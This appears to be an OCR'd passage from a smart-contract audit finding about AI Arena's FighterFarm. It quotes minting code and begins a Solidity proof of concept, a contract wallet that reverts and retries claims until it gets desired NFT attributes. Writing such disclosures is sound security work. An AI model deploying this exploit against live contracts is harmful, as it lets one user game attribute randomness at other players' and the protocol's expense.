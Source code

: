 ```solidity
    bool dendroidBool = fighterType == 1;
@>  FighterOps.FighterPhysicalAttributes memory attrs = _aiArenaHelperInstance.createPhysicalAttributes(
        newDna,
        generation[fighterType],
        iconsType,
        dendroidBool
    );
    fighters.push(
        FighterOps.Fighter(
            weight,
            element,
            attrs,
            newId,
            modelHash,
            modelType,
            generation[fighterType],
            iconsType,
            dendroidBool
        )
    );
@>  _safeMint(to, newId);
    FighterOps.fighterCreatedEmitter(newId, weight, element, generation[fighterType]);
}

function _createFighterBase(
    uint256 dna, 
    uint8 fighterType
) 
    private 
    view 
    returns (uint256, uint256, uint256) 
{
    uint256 element = dna % numElements[generation[fighterType]];
    uint256 weight = dna % 31 + 65;
    uint256 newDna = fighterType == 0 ? dna : uint256(fighterType);
    return (element, weight, newDna);
}
```
This is PoC.

First, add the PoCCanClaimSpecificAttributeByRevert contract at the bottom of the FighterFarm.t.sol file. This contract represents a user-customizable contract wallet. If the user does not get an NFT with desired attributes, they can revert the transaction and retry minting again.
```solidity
contract PoCCanClaimSpecificAttributeByRevert {
    FighterFarm fighterFarm;
    address owner;

    constructor(FighterFarm _fighterFarm) {
        fighterFarm = _fighterFarm;
        owner = msg.sender;
    }

    function tryClaim(uint8[2] memory numToMint, bytes memory claimSignature, string[] memory claimModelHashes, string[] memory claimModelTypes) public {
        require(msg.sender == owner, "not owner");
        try fighterFarm.claimFighters(numToMint, claimSignature, claimModelHashes, claimModelTypes) {
            // success to get specific attribute NFT
        } catch {
            // try again next time
        }
    }
```
